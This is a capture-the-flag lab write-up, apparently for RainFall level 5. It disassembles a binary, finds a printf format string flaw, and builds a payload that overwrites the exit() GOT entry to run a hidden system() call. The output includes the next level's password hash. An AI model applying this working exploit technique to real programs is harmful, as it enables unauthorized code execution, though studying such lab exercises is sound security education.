 ## LEVEL 5

Let's start as usual by disassembling the program.

```shell
level5@RainFall:~$ gdb -q level5
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
[...]
0x080484a4  o
0x080484c2  n
0x08048504  main
[...]
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	and    $0xfffffff0,%esp
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

Ok so now we can understand how the program works. The `main()` function only calls `n()` then `n()` calls `fgets()` and `printf()`. `fgets()` is secured but `printf()` as the previous levels has a vulnerability. In addition, the program has an unused function called `o()` which calls `system()`.

So to complete this level we need to find a way to call `o()` in the program by using a **Format String Attack**. But something is weird in the program, why `n()` calls `exit()` instead of return ? We can simply use return because the `main()` only calls `n()`. Let's take a look to `exit()` with `objdump`

```shell
level5@RainFall:~$ objdump -d ./level5

./level5:     file format elf32-i386
[...]
080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    *0x8049838
 80483d6:	68 28 00 00 00       	push   $0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>
[...]
```

As we can see the `exit()` use a jump to the address `0x8049838` let's look at this address what's inside.

```shell
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```

The address `0x8049838` point to another address in the GOT *(Global Offset Table)* so if we change the value of this address with the address of `o()` the `exit()` will no longer calls the GOT function `exit` but will calls the `o()` function. We can now create our payload.

### Payload

`python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/payload`

*If you don't understand how this payload has been made, take a look on the level 4 and 5.*

```shell
level5@RainFall:~$ (cat /tmp/payload; echo "cat /home/user/level6/.pass") | ./level5
[...]
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```


